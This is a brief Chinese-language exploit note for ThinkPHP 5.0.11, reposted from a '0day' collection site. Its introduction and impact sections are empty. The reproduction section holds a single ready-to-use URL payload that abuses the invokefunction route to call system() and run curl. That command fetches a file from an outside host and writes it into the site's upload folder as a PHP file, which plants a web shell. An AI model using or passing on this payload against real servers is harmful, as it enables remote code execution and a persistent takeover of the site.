 # Thinkphp 5.0.11

> 原文：[http://book.iwonder.run/0day/Thinkphp/4.html](http://book.iwonder.run/0day/Thinkphp/4.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
http://www.0-sec.org/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=curl https://www.hack.com/xxx.js -o ./upload/xxx.php 
```

